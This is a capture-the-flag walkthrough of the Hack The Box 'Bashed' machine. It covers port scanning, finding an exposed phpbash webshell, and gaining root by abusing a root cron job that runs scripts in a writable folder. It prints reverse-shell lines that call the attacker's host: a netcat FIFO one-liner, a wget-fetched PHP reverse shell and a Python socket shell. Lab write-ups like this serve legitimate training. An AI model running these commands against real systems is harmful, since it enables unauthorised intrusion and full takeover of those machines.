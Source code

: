 # Bashed - hack the box

[![AgdMvj.md.png](https://s2.ax1x.com/2019/04/03/AgdMvj.md.png)](https://imgchr.com/i/AgdMvj)

## Introduction

Target: 10.10.10.68 (OS: Linux)

Kali linux: 10.10.16.44

## Information Enumeration

Firstly, detect the open ports:

```    
# Nmap 7.70 scan initiated Wed Apr  3 20:48:43 2019 as: nmap -sT -p- --min-rate 10000 -oA openports 10.10.10.68
Warning: 10.10.10.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.68
Host is up (0.31s latency).
Not shown: 39680 closed ports, 25854 filtered ports
PORT   STATE SERVICE
80/tcp open  http
```

Only port 80 is open, it may be an easy box. And the truth is that it is really an easy box.

Then, detect the services of the port 80, it may be a kind of http service.

```
# Nmap 7.70 scan initiated Wed Apr  3 20:55:27 2019 as: nmap -sC -sV -p 80 -oA services 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Nothing special. Then access the http service and find more.

## Exploit

### Http

Access to `http://10.10.10.68`, and it seems to be a simple blog which talks about `phpbash`.

![AgfJCd.png](https://s2.ax1x.com/2019/04/04/AgfJCd.png)

`phpbash` seems to be a webshell tool. And there is a github repository [phpbash](https://github.com/Arrexel/phpbash) introduces the tool. The introduction of the repo is to drop the file to target and access it by `http://ip/uploads/phpbash.php`. Try to access `http://10.10.10.68/uploads/phpbash.php`. But the file seems not to be here.

Utilize the dirbuster to enumerate the directories.

![AgfTPJ.png](https://s2.ax1x.com/2019/04/04/AgfTPJ.png)

Wow. Find it and open the file `phpbash.php`. Here is the webshell. I have tried to reverse shell by `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.44 1234 >/tmp/f`. But the shell cannot be returned. Whatever, I can obtain the user.txt.

![AghFMt.png](https://s2.ax1x.com/2019/04/04/AghFMt.png)

It is convenient to get the reverse shell. So I try to upload a php shell to the target machine. The detailed php script can be found [here](https://github.com/neal1991/htb/blob/master/Bashed/php-reverse-shell.php). And I server the php script by `python -m SimpleHTTPServer 80`. Then download the php script from the target machine. To ensure the script can be written to the target machine. Select a path can be written, for example: `/tmp`.

[![AghBsx.png](https://s2.ax1x.com/2019/04/04/AghBsx.png)](https://imgchr.com/i/AghBsx)

`wget http://10.10.16.44/php-reverse-shell.php`

Then in the kali, set the `nc` listen to port 1234:

`nc -lvnp 1234`

Execute the php script in the target machine `php php-reverse-shell.php`. OK. We obtain the reverse shell.

[![AghhQI.png](https://s2.ax1x.com/2019/04/04/AghhQI.png)](https://imgchr.com/i/AghhQI)

## Privilege escalation

Obtain the user permission is quite easy, and it is not difficult to obtain the root permission. Utilize `sudo -l` to see the permissions of the user. Something interesting found. We can switch to `scriptmanager` user without password.

![Ag4cn0.png](https://s2.ax1x.com/2019/04/04/Ag4cn0.png)

```
su -u scrriptmanager bash -i
```

Try to enumerate the files. And I find an interesting folder inside `/scripts`. There are two files `test.py` and `test.txt`. Try to display the content of `test.py`.

[![AghxO0.png](https://s2.ax1x.com/2019/04/04/AghxO0.png)](https://imgchr.com/i/AghxO0)

The python script is quite straightforward. It just writes `testing 123!` to the file `test.txt`. And if we see the attributes of `test.txt`, the modified time of the file changes each minute. And the file is owned by root. It seems that `root` will execute the python scripts in `/scripts` folder each minute. So utilize a python script to reverse the root shell(according to the information above, the python version of the target machine is 2.7):

```python 
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.44",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Set the kali listen to port 4444. Download the python script in the target machine and execute. Now, root shell is obtained.

![AgICRJ.png](https://s2.ax1x.com/2019/04/04/AgICRJ.png)

[![AgIks1.png](https://s2.ax1x.com/2019/04/04/AgIks1.png)](https://imgchr.com/i/AgIks1)




